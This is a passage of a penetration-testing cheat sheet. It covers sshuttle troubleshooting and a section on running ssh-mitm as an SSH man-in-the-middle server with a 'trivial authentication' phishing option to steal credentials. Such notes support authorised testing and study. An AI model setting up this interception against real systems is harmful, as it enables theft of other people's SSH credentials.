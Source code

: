 Then you can access to other networks.

- **Troubleshooting**

    If you get the error "Failed to flush caches: Unit dbus-org.freedesktop.resolve1.service not found...", you need to flush DNS cache.


    ```sh
    sudo systemctl enable systemd-resolved.service
    sudo resolvectl flush-caches
    ```

    Run sshuttle again.

<br />

## SSH-MITM for Stealing Credentials

If the target system user try to connect arbitrary host using SSH, we might be able to steal credentials by listening via the SSH man-in-the-middle server.  
Run the following command in local machine.

```bash
# If not have the ssh-mitm, install first.
pip3 install ssh-mitm --upgrade

# --enable-trivial-auth: The "trivial authentication" phishing attack
# --remote-host: Specify the target ip/domain
# --listen-port: Specify the ip address to listen in local machine
ssh-mitm server --enable-trivial-auth --remote-host example.com --listen-port 2222
```